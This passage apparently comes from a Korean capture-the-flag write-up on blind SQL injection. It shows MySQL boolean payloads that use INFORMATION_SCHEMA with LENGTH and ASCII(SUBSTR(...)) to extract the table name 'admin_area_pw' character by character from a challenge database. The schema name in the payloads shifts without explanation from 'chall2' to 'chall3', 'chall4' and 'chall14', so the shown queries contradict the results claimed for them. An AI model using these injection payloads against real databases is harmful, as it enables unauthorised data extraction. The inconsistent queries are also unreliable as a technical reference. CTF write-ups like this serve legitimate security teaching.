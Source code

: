 database의 이름은 `chall2`입니다. 다음과 같은 Query문으로 해당 이름의 database가 있는지 확인할 수 있습니다.

~~~sql
SELECT 1 
FROM INFORMATION_SCHEMA.SCHEMATA 
WHERE SCHEMA_NAME ='chall2';
~~~
__*Note*__: 위 Query를 사용하는 [Brute force](https://ko.wikipedia.org/wiki/%EB%AC%B4%EC%B0%A8%EB%B3%84_%EB%8C%80%EC%9E%85_%EA%B3%B5%EA%B2%A9) 공격은 문제의 의도에서 벗어나므로 배제

이제 `chall2` 라는 Database 내의 Table을 파악할 차례입니다. 이번엔 MySQL의 메타데이터, `INFORMATION_SCHEMA`를 이용해서 테이블명을 획득해보겠습니다. 

~~~sql
LENGTH((
    SELECT TABLE_NAME 
    FROM INFORMATION_SCHEMA.TABLES 
    WHERE TABLE_SCHEMA="chall2" 
    LIMIT 0,1)) = 13;
~~~
위의 Query는 주석에서 true를 반환합니다. 즉, 우리는 table의 이름이 13글자라는 것을 확인했습니다.
데이터베이스명을 확인한 것처럼, 같은 방법으로 테이블명을 확인하면 다음과 같습니다.
~~~sql
ASCII(
    SUBSTR((
        SELECT TABLE_NAME 
        FROM INFORMATION_SCHEMA.TABLES 
        WHERE TABLE_SCHEMA 
        = "chall2"), 1, 1)) = 97;
-- a

ASCII(
    SUBSTR
    ((SELECT TABLE_NAME 
    FROM INFORMATION_SCHEMA.TABLES 
    WHERE TABLE_SCHEMA 
    = "chall3"), 2, 1)) = 100;
-- d

ASCII(
    SUBSTR((
        SELECT TABLE_NAME 
        FROM INFORMATION_SCHEMA.TABLES 
        WHERE TABLE_SCHEMA 
        = "chall4"), 3, 1)) = 109;
-- m

...중략

ASCII(
    SUBSTR((
        SELECT TABLE_NAME 
        FROM INFORMATION_SCHEMA.TABLES 
        WHERE TABLE_SCHEMA 
        = "chall14"), 13, 1)) = 119;
-- w
~~~
이로써 테이블명이 `admin_area_pw`라는 것도 확인했습니다. 

